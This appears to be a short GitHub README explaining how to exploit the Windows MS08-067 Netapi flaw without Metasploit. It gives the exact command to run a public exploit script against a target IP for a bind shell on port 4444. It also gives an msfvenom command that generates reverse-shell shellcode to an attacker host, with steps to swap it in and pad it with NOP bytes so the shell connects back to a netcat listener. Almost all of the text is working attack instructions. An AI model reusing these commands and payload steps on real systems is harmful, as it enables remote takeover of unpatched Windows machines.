 # Netapi MS08-067 without metasploit

 Reference:

https://www.exploit-db.com/exploits/7132  https://www.exploit-db.com/exploits/40279	(Reverse shell modification of above payload but not working).

7132.py directly bind shell to port 4444 at server(No code modification required).
Exploit: python 7132.py 192.168.1.6 2	(& got bind shell at server side port 4444)

Above code can ge modified to get reverse shell:
i. Generate shellcode using msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.21 LPORT=5253 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows
ii. Replace shellcode with above generated code.
iii. Add '\0x90' such that total size of payload becomes equal to 360 bytes(same as the size of bind shellcode of the exploit).

[Size of my payload generated = 348 bytes so addded "\x90" *12 to my shellcode]

& get reverse shell on nc :).

